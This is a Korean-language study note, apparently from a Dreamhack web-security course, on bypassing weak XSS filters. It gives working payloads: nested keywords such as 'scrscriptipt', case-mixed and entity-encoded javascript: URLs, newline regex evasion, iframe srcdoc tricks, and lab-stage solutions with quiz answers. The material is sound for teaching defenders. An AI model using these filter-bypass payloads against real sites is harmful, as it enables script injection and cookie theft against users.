 **XSS를 방어하기 위해 필터링을 추가되어있을 때 이를 우회하는 방법**  
# 불충분한 XSS 필터링  

## XSS 필터링의 배경  
HTML은 **SGML을 바탕** -> 기능을 상당 수 유지함으로써 **문법이 복잡**해졌고, 이에 따라 HTML을 해석하는 **소프트웨어의 구조 또한 정교화**  
**브라우저 전쟁** 을 거치면서 별다른 규율 없이 **태그 등을 늘림**  
-> 이러한 과정을 통해 HTML를 해석하는 소프트웨어 작성에 어려움을 겪었고, XSS 필터링도 비활성화 해야하는 경우가 생겼다.  
-> 보안을 위해 XSS 필터링은 **안전하다고 알려진 마크업만 허용**하는 보수적인 방식 (Allowlist 필터링)을 취해야 합니다.  
## 이벤트 핸들러 속성  
자바스크립트 코드를 실행할 수 있는 HTML 태그는 **<script>** 이외에도 상당수 존재  
-> 예 : **onload, onerror, onfocus** 등  
### onload 이벤트 핸들러  
요청하는 데이터를 **로드**한 후에 **실행**, 만약 **로드에 실패**했다면 **실행되지 않습니다.**  
```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
<!-- → 유효한 이미지 로드 후 onload 핸들러 실행 -->

<img src="about:invalid" onload="alert(document.domain)">
<!-- → 이미지 로드 실패, onload 핸들러 실행하지 않음 -->
```
### onerror 이벤트 핸들러  
요청하는 데이터를 **로드하는데 실패**할 시 **실행**, 만약 **로드에 성공**했다면 **실행되지 않습니다.**  
```html
<img src="valid.jpg" onerror="alert(document.domain)">
<!-- → 유효한 이미지 로드 성공, onerror 핸들러 실행하지 않음 -->

<img src="about:invalid" onerror="alert(document.domain)">
<!-- → 이미지 로드 실패, onerror 핸들러 실행 -->
```
### onfocus 이벤트 핸들러  
**input 태그**에 커서를 클릭하여 **포커스가 되면 실행**되는 이벤트 핸들러  
일반적으로 공격 상황에서 
1. input 태그의 **autofocus 속성**을 이용해 **자동으로 포커스** 시킴
2. **URL의 hash 부분**에 **input 태그의 id 속성 값**을 입력(e.g. http://dreamhack.io/#inputID) 해서 자동으로 포커스 되도록 합니다.  
```html
<input type="text" id="inputID" onfocus="alert(document.domain)" autofocus>
<!-- → autofocus 속성으로 인해 페이지가 로드되지마자 바로 input 태그에 포커스함, 포커스된 직후 onfocus 핸들러 실행 -->
```

## 문자열 치환  
XSS 키워드를 필터링할 때 단순히 **치환 혹은 제거**하는 방식의 필터링 관습이 존재함  
예 : **script** 를 필터링 했을 때, **scrscriptipt** 를 사용하면, 중간의 script가 필터링되고 바깥 쪽의 script가 남는다.  
다음은 필터링 우회 예시이다.  
```
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```
대응 방안으로 흔히 문자열에 **변화가 없을 때까지 지속적으로 치환**하는 방식이 있다.  
```
function replaceIterate(text) {
    while (true) {
        var newText = text.replace(/script|onerror/gi, '');
        if (newText === text)
            break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;&gt;parent.alert(1)&lt;/&gt;" />
```

## 문자열 치환 실습  
### Stage 1  
<img src="1.jpg">  

**script** 를 빈 문자열로 치환한다.  
<img src="2.jpg">  

다음과 같이 **<script>alert(1)</script>** 을 적으면 필터링 되는 것을 알 수 있다.  
이 때, 중첩해서 문자열을 적으면 우회할 수 있다.  
<img src="3.jpg">  

**<scrscriptipt>alert(1)</scrscriptipt>** 라고 적으면 성공이다.  

### Stage 2  
<img src="4.jpg">  

**onerror** 를 빈 문자열로 치환한다.  
<img src="5.jpg">  
다음과 같이 적으면 onerror가 필터링 된다.  
```html
<img src="test.jpg" onerror=alert(1)>
```

<img src="6.jpg">  

이전 Stage 1과 같이 문자열을 중첩해서 적으면 우회할 수 있다. 
즉, **onerror**를 중첩해서 적으면 된다.  
```html
<img src="test.jpg" ononerrorerror=alert(1)>
```

## 활성 하이퍼링크  
HTML 에서 사용될 수 있는 URL들은 활성 콘텐츠를 포함할 수 있습니다.  
이 중 **javascript:** 스키마는 **URL 로드 시 자바스크립트 코드를 실행**할 수 있도록 합니다.  
```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```
다음과 같이 **a, iframe** 태그에서 javascript를 사용할 수 있다.  
이 경우에 **정규화**를 이용해 필터링을 우회할 수 있다.  
```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```
또한 태그 속성 내에서 **HTML Entity Encoding** 을 사용할 수 있다.  
즉, **javascript:** 나 다른 키워드로 인코딩해서 우회할 수 있다.  
```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```
자바스크립트에서는 **URL 객체**를 통해 URL을 직접 **정규화할 수 있으며**, **protocol, hostname 등 URL의 각종 정보를 추출**할 수 있습니다.  
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

## 태그와 속성 기반 필터링  
단순히 **태그나 속성을** 바탕으로 **필터링**를 하게 되면 **우회**가 가능한 경우가 많습니다.  
### 대문자 혹은 소문자만을 인식하는 필터 우회  
```javascript
x => !x.includes('script') && !x.includes('on')
```
다음과 같이 **script, on** 등을 필터링 할 때, 대소문자 전부 검사하지 않으면, 아래처럼 대소문자를 섞어서 우회할 수 있다.  
```html
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

### 잘못된 정규표현식을 사용한 필터 우회  
보통 필터링을 할 때, **정규표현식**을 사용한다. 이 때, 정규표현식에 문제가 있다면 우회할 수 있다.  
다음은 **스크립트 태그 내에 데이터가 존재하는지 검사하는 정규 표현식** 이다.  
```javascript
x => !/<script[^>]*>[^<]/i.test(x)

참고로 /<script[^>]*>[^<]/i 의 정규표현식 의미는 다음과 같다.
/: 정규표현식의 시작을 나타냅니다.
<script: <script 문자열을 찾습니다.
[^>]*: <script 태그 내부에 있는 > 이외의 모든 문자를 0개 이상 찾습니다.
>: <script 태그의 닫힘 괄호를 찾습니다.
[^<]: < 문자 이외의 모든 문자를 찾습니다.
/i: 대/소문자를 구분하지 않고 검색합니다.
```

스크립트 태그의 경우 **태그 내에 데이터가 존재하지 않아도** **src** 속성을 이용해 **데이터를 입력할 수 있다.** 이를 이용해 우회할 수 있다.  
```html
<script src="data:,alert(document.cookie)"></script>
```

다음 필터링은 **<img>** 태그에 **on** 핸들러가 있는지 검사하는 필터이다.
```javascript
x => !/<img.*on/i.test(x)
```
위의 필터는 **멀티 라인에 대한 검사가 존재하지 않기** 때문에 개행 문자로 우회할 수 있다.  
```html
<img src=""\nonerror="alert(document.cookie)"/>
```
### 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회  
다음은 **script, img, input 태그**를 필터링하는 코드이다.  
```javascript
x => !/<script|<img|<input/i.test(x)
```
위에서 필터링한 태그 이외에 **다른 태그**를 사용해 공격을 시도할 수 있습니다.  
```html
<video><source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```
다음은 이전 필터링에서 **on 이벤트 핸들러**와 **멀티 라인을 지원하는 문자**를 필터링이다.  
```javascript
x => !/<script|<img|<input|<.*on/is.test(x)
```
이는 **iframe** 를 이용해 우회할 수 있다.  
1. **src** 속성으로 URL을 인자로 받아서 **활성 하이퍼링크**를 이용
2. **srcdoc** 속성으로 **HTML Entiry Encoding** 으로 우회  

```html
<iframe src="javascript:alert(parent.document.domain)">
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
## 태그와 속성 기반 필터링 실습  
### Stage 1  
<img src="7.jpg">  

**script**를 필터링 한다.  
여기서 중요한 점은 대문자는 필터링하지 않는다.  
<img src="8.jpg">  
따라서 **<Script>alert(1)</Script>** 처럼 script에 대문자를 사용하면 우회할 수 있다.  

## Stage 2  
<img src="9.jpg">  
입력한 문자를 소문자로 바꾼 후, script가 포함되어있는지 검사한다.  
여기서는 script를 사용할 수 없기 때문에, 다른 태그를 사용하면 된다.  
<img src="10.jpg">  

```html
<img src="test.jpg" onerror=alert(1)>
```
위와 같이 **img** 태그를 사용할 수 있다.  
## Stage 3  
<img src="11.jpg">  

script, on 을 필터링한다.  
이 문제는 **iframe** 을 사용하면 된다. 그 중에서 **javascript:** 은 사용할 수 없으므로, **srcdoc** 속성을 이용한다.  
<img src="12.jpg">  

여기서 하나 중요한 점은 바로 **parent.alert(document.domain)** 이다. 이 부분을 찾지 못해서 답을 미리 봤지만, 설명해보자면 위에 적은 스크립트는 **iframe**으로 생성된 iframe 안에서 호출된다.  
이 실습을 풀기 위해, iframe의 바깥 쪽(상위 문서) 에서 alert를 실행해야 인식할 수 있기 때문에, 상위 문서를 의미하는 **parent** 를 이용한다.  
# 퀴즈  
1. 블랙리스트 기반 필터링이 근본적인 해결책이 될 수 없는 이유를 모두 고르시오  
**답** : 개발자가 인지하지 못하는 키워드가 존재할 수 있기 때문에, HTML 표준과 브라우저의 기능은 나날이 변화하고 추가되기 때문에  
2. 안전하다고 알려진 마크업만 허용하는 필터링 방식은 무엇인가?  
**답** : 화이트리스트 필터링  
